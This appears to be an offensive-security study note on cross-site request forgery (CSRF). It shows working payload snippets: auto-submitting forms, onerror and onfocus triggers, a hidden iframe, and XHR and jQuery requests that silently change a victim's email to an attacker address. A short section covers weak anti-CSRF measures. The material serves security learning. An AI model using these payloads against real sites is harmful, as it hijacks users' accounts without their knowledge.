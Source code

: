## Post Requests
Using only HTML, the only way to forge POST requests is with the attribute method of tah FORM:
```js
<form action="somewhere" method="POST">
```

- As a result, we need to create a cloned form and then social engineer the victim into clicking the submit button.

- We can use HTML + Javascript to create a more effective attack that does not require user interaction

### Auto-submitting Form
```js
<script>document.getElementById("CSRForm").submit()</script>
```

We can use event handlers such as **onload** and **onerror** because they do not require user interaction:
```js
<img src=x onerror="CSRForm.submit();">
```

in HTML5 we can use **autofocus** and the related event handler **onfocus**:
```js
<input name="new" value="evil@hacker.site" autofocus onfocus="CSRForm.submit()">
```

### How to perform POST requests silently
```js
<iframe style="display:none" name="CSRFrame"></iframe>

# in the form we add target="CSRFrame" 
# display the response received submitting the form in the iframe
```

Can be forged using XMLHttpReques(**XHR**) also:
```js
var url="URL";
var params = "old=mycoolemail@victim.site&new=eviL@hacker.site";
var CSRF = new XMLHttpRequest();
CSRF.open("POST", url, false);
CSRF.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
CSRF.send(params)
```

Can also be done using JavaScript libraries such as JQuery:
```js
$.ajax({ type: "POST", url: "URL", data: "old=mycoolemail@victim.site&new=eviL@hacker.site",});
```


## Exploiting Weak Anti-CSRF Measures

### Using POST-only Requests
- Get requests can be cached, bookmarked, etc. It should not be used For operations that cause a state to change. These may include functionality like database operations, writings files, etc.
- POST requests For sensitive informations is better practice and protects against a well-known class of CSRF attack vectors.
